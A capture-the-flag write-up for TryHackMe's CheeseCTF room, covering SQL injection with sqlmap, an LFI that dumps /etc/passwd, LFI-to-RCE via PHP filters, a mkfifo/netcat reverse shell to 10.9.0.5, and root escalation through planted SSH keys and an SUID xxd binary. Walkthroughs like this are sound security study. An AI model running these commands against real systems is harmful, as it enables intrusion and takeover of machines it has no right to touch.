 # CheeseCTF

[Link to the room](https://tryhackme.com/r/room/cheesectfv10)

## Enumeration

Let's start by running a basic nmap scan to check for open ports in the machine.

```bash
nmap cheesectf.thm
```
![](/writeups/tryhackme/cheesectf/1.png)

Nmap shows a lot of open ports, so it seems sensible to try to access a potential web server.

![](/writeups/tryhackme/cheesectf/2.png)

We can test the HTTP form on the login.php endpoint by trying to look for a SQL injection.

![](/writeups/tryhackme/cheesectf/3.png)

## Exploitation

### SQL injection via SQLMap

After checking the POST request sent to login.php (from our Network tab in our web browser), we can see that the login data is sent to /login.php via two POST parameters called username and password. We should definitely check out SQLMap to test for SQL injection in these parameters:

![](/writeups/tryhackme/cheesectf/4.png)

```bash
sqlmap -u http://cheesectf.thm --data "username=1&password=1"
```

![](/writeups/tryhackme/cheesectf/5.png)

As can be seen above, SQLMap shows that the POST parameter 'username' is vulnerable to a time-based SQL injection. Also, upon trying this injection SQLMap gets a 302 redirection to a new endpoint. Let's copy this URL to our web browser.

### Elevating LFI to RCE using PHP filters

Now that we're in the /secret-script.php endpoint, we can test the 'file' GET parameter for an LFI vulnerability. This way, we can actually dump /etc/passwd.

```
http://cheesectf.thm/secret-script.php?file=/etc/password
```

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
comte:x:1000:1000:comte:/home/comte:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```

After trying to access other files such as Apache's access.log in order to test for log poisoning, I wasn't successful. This is when I decided to elevate to RCE using PHP filters. I found this URL that contained a Python script that was certainly useful:

[Link here!](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

After modifying the script we get a successful Proof of Concept:

![](/writeups/tryhackme/cheesectf/6.png)

Now that our RCE vulnerability seems exploitable, let's run a NetCat listener in our local machine and attempt to get a reverse shell:

```bash
nc -lvnp 2509 # on the attacker
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.5 2509 >/tmp/f # on the script
```

## Post-Exploitation

We have successfully exploited the machine, so now we can stabilize our shell (optional) and do some reconnaissance looking for privilege escalation vectors.

[More info here!](https://saeed0x1.medium.com/stabilizing-a-reverse-shell-for-interactive-access-a-step-by-step-guide-c5c32f0cb839)

Nothing seems especially suspicious, so let's get LinPeas into the machine and run it:

![](/writeups/tryhackme/cheesectf/7.png)

After running LinPeas, there are two things we should definitely check out:

![](/writeups/tryhackme/cheesectf/8.png)

- We're allowed to write to /etc/systemd/exploit.timer, although for now there is nothing we can do.

- We have write privileges on Comte's authorized keys (/home/comte/.ssh/authorized_keys), so we can generate a pair of SSH keys and login as Comte.

### Escalating to the comte user - generating SSH keys

To generate our keys:

```bash
ssh keygen -t rsa
```

Now, let's save the public key in Comte's authorized keys:

```bash
cat id_rsa.pub > /home/comte/.ssh/authorized_keys
```

Now let's copy our SSH private key to our local machine, give it the approppriate permissions and use it to login via SSH:

```bash
chmod 400 id_rsa
ssh -i id_rsa comte@cheesectf.thm
```

### Escalating to the root user - abusing badly configured services

Now we're Comte! Let's get the user flag and check what we can run as sudo:

![](/writeups/tryhackme/cheesectf/9.png)

Curiously enough, we have write privileges to exploit.timer. Attempting to use sudo to run the exploit.timer service throws an error:

![](/writeups/tryhackme/cheesectf/10.png)

After using cat to check out exploit.service, we can see that what the service does is copy /usr/bin/xxd to the opt directory and make it an SUID binary, something we can definitely exploit in the near future.

But for now, after using cat on the exploit.timer file, we can see that the OnBootSec option has no value, probably why it's throwing an error:

```
[Unit]
Description=Exploit Timer
```

```
[Timer]
OnBootSec=
```

```
[Install]
WantedBy=timers.target
```

Thankfully this error is fixed by setting OnBootSec=0, so now if we restart the daemon and go to the opt directory, we can see a new SUID binary.

### Escalating to the root user - abusing badly configured services

![](/writeups/tryhackme/cheesectf/11.png)

After checking out GTFObins, we can see that xxd as an SUID binary allows us to get both read and write privileges over all root-owned files. We have two options

- Either guessing that the flag is in /root/root.txt and reading it right away.

- Or generating a pair of SSH keys and saving the public key to /root/.ssh/authorized_keys, allowing us to log in as root via SSH (as we did before with the Comte user).

I'll do the second option, as the purpose of boot2root is to actually root the machine, rather than just grabbing the root flag.

```bash
cat /home/comte/.ssh/authorized_keys | /opt/xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

Now, let's log in as root:

```bash
ssh -i id_rsa root@cheesectf.thm
```

We can now grab the root flag and so we have rooted this machine!